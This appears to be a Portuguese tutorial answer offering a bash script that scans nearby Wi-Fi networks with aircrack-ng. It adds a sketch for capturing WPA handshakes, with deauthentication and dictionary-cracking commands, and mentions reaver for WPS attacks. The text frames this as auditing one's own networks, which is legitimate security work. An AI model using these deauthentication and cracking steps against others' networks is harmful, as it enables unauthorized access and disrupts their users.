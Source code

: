 




```bash
#!/bin/bash

# Cores para saída
RED='\033[0;31m'
GREEN='\033[0;32m'
YELLOW='\033[0;33m'
NC='\033[0m' # No Color

# Função para exibir mensagens de erro
error() {
  echo -e "${RED}Erro: $1${NC}" >&2
}

# Função para exibir mensagens de sucesso
success() {
  echo -e "${GREEN}$1${NC}"
}

# Função para exibir mensagens de aviso
warning() {
  echo -e "${YELLOW}Aviso: $1${NC}"
}

# Verifica se o usuário é root (necessário para algumas operações)
if [[ "$EUID" -ne 0 ]]; then
  error "Este script precisa ser executado como root."
  exit 1
fi

# Verifica se o aircrack-ng está instalado
if ! command -v aircrack-ng &> /dev/null; then
  error "O pacote aircrack-ng não está instalado. Por favor, instale-o."
  echo "  Exemplo (Debian/Ubuntu): sudo apt-get update && sudo apt-get install aircrack-ng"
  echo "  Exemplo (Fedora/CentOS): sudo dnf install aircrack-ng"
  exit 1
fi

# Define a interface de rede sem fio (você pode precisar ajustar isso)
INTERFACE="wlan0"

# Verifica se a interface existe
if ! ip link show "$INTERFACE" &> /dev/null; then
  error "A interface '$INTERFACE' não foi encontrada."
  echo "  Por favor, verifique o nome da sua interface de rede sem fio com o comando 'iwconfig' ou 'ip a'."
  exit 1
fi

echo -e "\n${YELLOW}Iniciando auditoria básica da rede Wi-Fi...${NC}\n"

# Coloca a interface em modo monitor
echo -e "${YELLOW}[+] Colocando a interface '$INTERFACE' em modo monitor...${NC}"
sudo airmon-ng start "$INTERFACE"
MONITOR_INTERFACE=$(iwconfig | grep -oP "^[a-zA-Z0-9]+(\s+Managed|\s+Monitor)$" | grep Monitor | awk '{print $1}')

if [ -z "$MONITOR_INTERFACE" ]; then
  error "Falha ao colocar a interface em modo monitor."
  exit 1
else
  success "Interface '$MONITOR_INTERFACE' ativada em modo monitor."
fi

# Lista as redes Wi-Fi disponíveis
echo -e "\n${YELLOW}[+] Listando redes Wi-Fi disponíveis...${NC}"
sudo airodump-ng "$MONITOR_INTERFACE" --output-format csv --output audit_scan --write-interval 10 &
echo "Pressione Ctrl+C para interromper a busca e analisar os resultados."
sleep 30 # Aguarda 30 segundos para coletar algumas redes
sudo killall airodump-ng

if [ -f "audit_scan-01.csv" ]; then
  echo -e "\n${YELLOW}[+] Redes Wi-Fi encontradas (arquivo: audit_scan-01.csv):${NC}"
  cat "audit_scan-01.csv" | grep -v "Station MAC" | awk -F',' '{print "BSSID: "$1", ESSID: "$14", Channel: "$3", Encryption: "$5}'
  rm "audit_scan-01.csv" "audit_scan-01.kismet.csv" "audit_scan-01.netxml"
else
  warning "Nenhuma rede Wi-Fi foi detectada dentro do período."
fi

# Desativa o modo monitor
echo -e "\n${YELLOW}[+] Desativando o modo monitor na interface '$MONITOR_INTERFACE'...${NC}"
sudo airmon-ng stop "$MONITOR_INTERFACE"

success "\nAuditoria básica concluída."
```

**Como usar este script:**

1.  **Salve o código:** Salve o código em um arquivo de texto, por exemplo, `wifi_audit.sh`.
2.  **Dê permissão de execução:** Abra o terminal e execute o comando `chmod +x wifi_audit.sh`.
3.  **Execute o script:** Execute o script com permissões de root: `sudo ./wifi_audit.sh`.

**O que este script faz:**

* **Verifica pré-requisitos:** Garante que o script seja executado como root e que o `aircrack-ng` esteja instalado.
* **Define a interface:** Você precisará **editar a variável `INTERFACE`** para o nome correto da sua interface de rede sem fio (geralmente `wlan0`). Use `iwconfig` ou `ip a` para verificar.
* **Coloca a interface em modo monitor:** O modo monitor permite que a placa de rede capture todos os pacotes de rádio ao seu redor, não apenas os destinados a ela.
* **Lista redes Wi-Fi:** Utiliza o `airodump-ng` para escanear as redes Wi-Fi próximas e salva os resultados em um arquivo CSV.
* **Exibe informações básicas:** Lê o arquivo CSV e exibe informações como BSSID (MAC address do ponto de acesso), ESSID (nome da rede), canal e tipo de criptografia.
* **Desativa o modo monitor:** Retorna a interface ao modo gerenciado normal.

**Próximos passos e considerações para uma auditoria mais completa:**

* **Captura de Handshake (WPA/WPA2):** Para testar a força da senha de redes WPA/WPA2, você precisará capturar o "handshake" (uma troca de informações inicial quando um dispositivo se conecta à rede). Isso geralmente envolve desautenticar um cliente conectado para forçá-lo a reconectar. Ferramentas como `aireplay-ng` são usadas para isso.
* **Quebra de Senha (WPA/WPA2):** Uma vez que o handshake é capturado, você pode usar ferramentas como `aircrack-ng` com um arquivo de dicionário para tentar quebrar a senha.
* **Testes de Vulnerabilidades (WPS):** Algumas redes utilizam o WPS (Wi-Fi Protected Setup), que pode ter vulnerabilidades. Ferramentas como `reaver` podem ser usadas para testar essas vulnerabilidades.
* **Análise de Tráfego:** Para entender o tráfego da rede, você pode usar ferramentas como `wireshark` (embora isso geralmente seja feito em modo gerenciado após se conectar à rede).
* **Detecção de Intrusos:** Scripts mais avançados podem tentar identificar atividades suspeitas na rede.
* **Interface Gráfica:** Para facilitar o uso, você poderia considerar a criação de uma interface gráfica (GUI) para o seu script usando ferramentas como `zenity` ou `yad`.
* **Tratamento de Erros:** O script básico pode ser aprimorado com um tratamento de erros mais robusto.
* **Configuração:** Permitir que o usuário configure opções como a interface, o tempo de escaneamento e o arquivo de dicionário seria útil.

**Exemplo de como adicionar a captura de handshake (requer mais complexidade e interação do usuário):**

```bash
#!/bin/bash
# ... (código anterior) ...

# Solicita o BSSID da rede alvo
read -p "Digite o BSSID da rede alvo: " TARGET_BSSID
if [ -z "$TARGET_BSSID" ]; then
  error "BSSID não fornecido."
  exit 1
fi

# Inicia a captura de handshake
echo -e "\n${YELLOW}[+] Iniciando captura de handshake na rede '$TARGET_BSSID'...${NC}"
sudo airodump-ng --bssid "$TARGET_BSSID" -w handshake --channel "$(iwconfig "$MONITOR_INTERFACE" | grep Frequency | awk '{print $4}' | sed 's/GHz.//')" "$MONITOR_INTERFACE" &
echo "Abra outro terminal e execute um ataque de desautenticação (aireplay-ng) contra um cliente conectado a esta rede."
echo "Exemplo: sudo aireplay-ng --deauth 10 -a $TARGET_BSSID -c <MAC_DO_CLIENTE> $MONITOR_INTERFACE"
echo "Aguardando o handshake (arquivo: handshake-01.cap)..."

# Aguarda um tempo para a captura (você pode precisar ajustar isso)
sleep 60
sudo killall airodump-ng

if [ -f "handshake-01.cap" ]; then
  success "Handshake capturado com sucesso! Arquivo: handshake-01.cap"
  echo "Agora você pode tentar quebrar a senha usando uma ferramenta como aircrack-ng."
  echo "Exemplo: aircrack-ng -w <seu_dicionario.txt> handshake-01.cap -b $TARGET_BSSID"
else
  warning "Nenhum handshake foi capturado dentro do período."
fi

# ... (código para desativar o modo monitor) ...
```

Lembre-se que este é apenas um ponto de partida. A auditoria de redes Wi-Fi é um campo vasto e envolve o uso de diversas ferramentas e técnicas. É fundamental entender as implicações legais e éticas antes de realizar qualquer tipo de teste. Use este conhecimento de forma responsável e apenas em suas próprias redes.
